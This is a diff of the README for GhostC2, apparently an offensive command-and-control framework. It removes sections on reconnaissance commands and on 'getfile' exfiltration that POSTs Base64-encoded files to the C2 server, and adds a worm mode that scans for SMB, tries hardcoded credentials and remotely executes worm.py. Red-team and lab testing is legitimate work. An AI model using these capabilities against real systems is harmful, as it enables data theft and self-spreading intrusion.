

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, the part around the change printed below. Shown: that part at 90% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -134,86 +143,26 @@ Or visit directly:
 
+### Example Output
 ```
-http://your.c2.ip:8080/console
+$ scan 127.0.0.1/32 ports:80
+{
+  "127.0.0.1": {
+    "80": "open"
+  }
+}
 ```
 
 ---
 
-### 🧪 Example Output
+## 🧬 Worm Propagation Mode (New)
 
-```
-$ whoami
-ghost-operator
+Payloads generated with `--worm` will:
+- Scan local subnet for port 445
+- Try hardcoded SMB creds
+- Drop and remotely execute `worm.py`
 
-$ uname -a
-Darwin MacBook-Pro.local 23.6.0 ...
-```
+Useful for:
+- Simulating worm-like behavior
+- Lateral movement in test labs
 
 ---
 
-### 🧩 Preset Commands
-
-Quick tasks for both Windows and Linux/macOS:
-- `whoami`
-- `ipconfig` / `ifconfig`
-- `systeminfo` / `uname -a`
-- `tasklist` / `ps aux`
-- `netstat` variants
-
----
-## 📂 File Exfiltration
-
-GhostC2 now supports secure, encoded file exfiltration via the live console or task queue.
-
----
-
-### ✅ How It Works
-
-Use the `getfile` command to retrieve any accessible file from a beacon:
-
-```
-getfile /etc/hosts
-```
-
-The agent will:
-
-1. Read the specified file
-2. Base64-encode its contents
-3. POST the encoded data to the C2 server
-4. The server will decode and save it to:
-   ```
-   server/downloads/<hostname>/<filename>
-   ```
-
----
-
-### 🔒 Notes
-
-- Exfiltrated files are stored per-host for traceability
-- Server-side decoding is automatic
-- The `[EXFIL:<filepath>]` header ensures safe parsing
-- Console output still displays result confirmation
-
----
-
-### 🛠 Example
-
-**Command:**
-```
-getfile /etc/hosts
-```
-
-**Console output:**
-```
-$ getfile /etc/hosts
-[EXFIL:/etc/hosts]
-aW50ZXJuZXQgY29ycnVwdGlvbiBldmVyeXdoZXJlCg==
-```
-
-**Server log:**
-```
-[DEBUG] Saving to: downloads/MacBook-Pro.local/hosts
-[+] File received from MacBook-Pro.local: hosts saved to downloads/MacBook-Pro.local/hosts
-```
-
----
-
````
Also changed, not shown: other parts of README.md (+43 -116 lines).
